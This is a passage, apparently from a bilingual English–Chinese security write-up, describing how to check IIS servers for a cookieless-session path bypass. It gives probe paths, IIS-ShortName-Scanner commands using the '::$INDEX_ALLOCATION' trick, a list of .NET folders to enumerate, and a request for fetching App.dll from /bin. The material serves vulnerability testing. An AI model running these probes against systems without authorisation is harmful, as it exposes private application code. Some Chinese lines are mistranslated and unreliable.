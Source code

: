 Both IIS-ShortName-Scanner and the “::$INDEX\_ALLOCATION” trick are attributed to Soroush Dalili.  
IIS-ShortName-Scanner 和“：：$INDEX\_ALLOCATION”技巧都归功于 Soroush Dalili。

## Full Exploitation Algorithm  
充分利用算法

Here’s a brief guide on how to check the server on the vulnerability.  
下面简单介绍一下如何检查服务器上的漏洞。

**1\.** Check if cookieless sessions are allowed.  
1\. 检查是否允许无 cookie 会话。

```bash
# If your application is in the main folder
/(S(X))/
/(Y(Z))/
/(G(AAA-BBB)D(CCC=DDD)E(0-1))/

# If your application is in a subfolder
/MyApp/(S(X))/
...
```

**2.** Optionally, use IIS-ShortName-Scanner. Note, its functionality doesn’t depend on whether cookieless sessions are enabled or not.  
2\. 也可以使用 IIS-ShortName-Scanner。注意，它的功能不依赖于是否启用无 cookie 会话。

```bash
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/MyApp/bin::$INDEX_ALLOCATION/'
```

In addition to “/bin”, I recommend you to check other special .NET folders:  
除了“/bin”，我建议你检查其他特殊的.NET 文件夹：

```jboss-cli
/App_Code
/App_WebReferences
/App_GlobalResources
/App_LocalResources
/App_Data
/App_Themes
/App_Browsers
/Themes
/Views
/Models
/Controllers
```

**3.** Explore 404 page. 3\. 404 页面找不到了

For `/(S(x))/b/(S(x))in/App.dll` it should write something like `/bin/App.dll` or none in the output. If it’s `.../b/(S(x))in/...` on 404, this means the patches are installed.  
对于 `/(S(x))/b/(S(x))in/App.dll` ，它应该在输出中写入类似于 `/bin/App.dll` 或 none 的内容。如果是 404 上的 `.../b/(S(x))in/...` ，则表示已安装补丁。

